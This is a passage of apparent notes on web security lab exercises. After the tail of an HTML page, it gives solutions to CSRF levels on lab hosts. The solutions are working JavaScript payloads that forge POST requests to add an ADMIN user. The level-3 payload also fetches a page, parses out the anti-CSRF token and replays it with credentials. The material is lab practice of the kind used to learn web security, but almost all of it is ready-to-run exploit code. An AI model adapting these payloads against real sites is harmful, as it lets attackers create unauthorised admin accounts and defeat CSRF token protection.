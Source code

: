 ```js
         startBlock(ww1, tokens.slice(0, 333));
         startBlock(ww2, tokens.slice(333, 666));
         startBlock(ww3, tokens.slice(666, tokens.length));
      </script>

      <div>
         <img src="counter.gif" />
      </div>
   </body>
</html>
```

## LAB CSRF

### Warm-up: CSRF level 1

warm-up add the user did with BURP

### Easy: CSRF level 2

```js
<script type="text/javascript">
var url = "http://2.csrf.labs/add_user.php"
var params = "name=talent&surname=joao&email=talent%40hacker.site&role=ADMIN&submit="
var csrf = new XMLHttpRequest();
csrf.open("POST", url, true);
csrf.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
csrf.send(params);
</script>
```

### Easy: CSRF level 3

```js
test2
<script type="text/javascript">
function addUser(token) {
    var url = "http://3.csrf.labs/add_user.php";
    var param = "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=&CSRFToken=" + token; 
    var CSRF = new XMLHttpRequest();
    CSRF.open("POST",url,true);
    CSRF.withCredentials = 'true';
    CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    CSRF.send(param);
}
// Extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function() { 
    if (XHR.readyState == 4 ) {
        var htmlSource = XHR.responseText; // the source of users.php
        // Extract the token 
        var parser = new DOMParser().parseFromString(htmlSource, "text/html");
        var token = parser.getElementById('CSRFToken').value;
        addUser(token);
    }
}
XHR.open('GET', 'http://3.csrf.labs/users.php', true);
XHR.send();
```
